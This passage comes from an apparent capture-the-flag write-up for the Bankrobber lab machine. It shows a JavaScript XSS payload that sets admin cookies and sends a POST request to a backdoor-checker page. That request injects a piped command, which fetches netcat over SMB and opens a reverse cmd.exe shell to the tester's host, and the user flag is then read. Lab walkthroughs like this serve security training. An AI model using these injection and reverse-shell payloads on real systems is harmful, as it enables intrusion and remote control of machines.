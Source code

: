 ```php
    echo "You are not allowed to use this function!";
}
?>
```

## Turning the XSS into an SSRF

As I found earlier I can't reach the `backdoorchecker.php` file from my own machine but I can use the same XSS to turn it into a SSRF. I'll need to change my javascript payload to generate a POST request to the backdoor checker page with the right parameters. After some trial an error I found that `dir|\\\\10.10.14.19\\test\\nc.exe 10.10.14.19 7000 -e cmd.exe"` payload works to execute netcat over SMB and get a shell.

```javascript
function pwn() {
    document.cookie = "id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D";
    var uri ="/admin/backdoorchecker.php";
    xhr = new XMLHttpRequest();
    xhr.open("POST", uri, true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cmd=dir|\\\\10.10.14.19\\test\\nc.exe 10.10.14.19 7000 -e cmd.exe");
}
pwn();
```

![](/assets/images/htb-writeup-bankrobber/shell1.png)

```
C:\xampp\htdocs\admin>type c:\users\cortin\desktop\user.txt
f6353466...
```

## Privesc using bank transfer application

There's something odd running on port 910...
